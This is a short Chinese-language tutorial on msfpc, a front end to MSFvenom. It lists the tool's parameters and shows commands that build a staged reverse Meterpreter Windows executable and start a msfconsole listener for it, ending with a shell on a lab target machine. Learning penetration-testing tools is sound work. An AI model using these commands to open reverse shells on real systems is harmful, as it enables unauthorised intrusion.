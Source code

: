 # msfpc
## 简介
MSFvenom Payload Creator（msfpc）是一个基于MSFvenom的Payload生成器，旨在简化Payload的创建过程，使用户尽可能简单的创建payload
## 参数详解
```
msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
```
+ < type>：
  + APK
  + ASP
  + ASPX
  + Bash [.sh]
  + Java [.jsp]
  + Linux [.elf]
  + OSX [.macho]
  + Perl [.pl]
  + PHP
  + Powershell [.ps1]
  + Python [.py]
  + Tomcat [.war]
  + Windows [.exe // .dll]
+ <DOMAIN/IP>：默认IP菜单，除了IP地址，还允许输入eth0，lo，wan
+ < PORT>：默认443
+ <CMD/MSF>：默认MSF    
  + CMD：用cmd进行交互
  + MSF：用msf进行交互，功能较强
+ <BIND/REVERSE>：默认REVERSE
  + BIND：正向连接
  + REVESE：反向连接
+ <STAGED/STAGELESS>：默认STAGED
  + STAGED：将payload分块，使其更小，依赖Metasploit
  + STAGELESS：完整独立的payload，比STAGED稳定
+ <TCP/HTTP/HTTPS/FIND_PORT>：默认TCP
  + TCP：tcp连接，最兼容types，容易被ids检测
  + HTTP：http连接，限制协议端口访问，如80
  + HTTPS：https连接，限制协议端口访问，如443
  + FIND_PORT：尝试在所有端口寻找出路
+ <BATCH/LOOP>
  + BATCH：生成尽可能多的组合
  + LOOP：生成其中一种
+ < VERBOSE>：显示更多信息：type，size，md5和sha1
## 简单使用实例
1. 使用msfpc生成payload
```
msfpc windows eth0
```
![Alt text](./1511872626842.png)
  
2. 使用生成的rc监听(-q 跳过启动画面 -r 加载resources脚本)
```
msfconsole -q -r '/root/msf/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
```
![Alt text](./1511872454543.png)
  
3. 靶机执行exe后

![Alt text](./1511872477273.png)
<br/> 轻松写意获得靶机的shell
## 一点小插曲和个人评价
看完所有参数后，最好奇的是find_port参数，执行后却发现
![Alt text](./1511873549693.png)

Metaspolit不支持！！！
<br/>个人觉得msfpc对新手挺友好的，虽然缺少了msfvenom的编码功能，命令行参数也差不多，但胜在能自动生成rc文件，在侦听时非常方便！

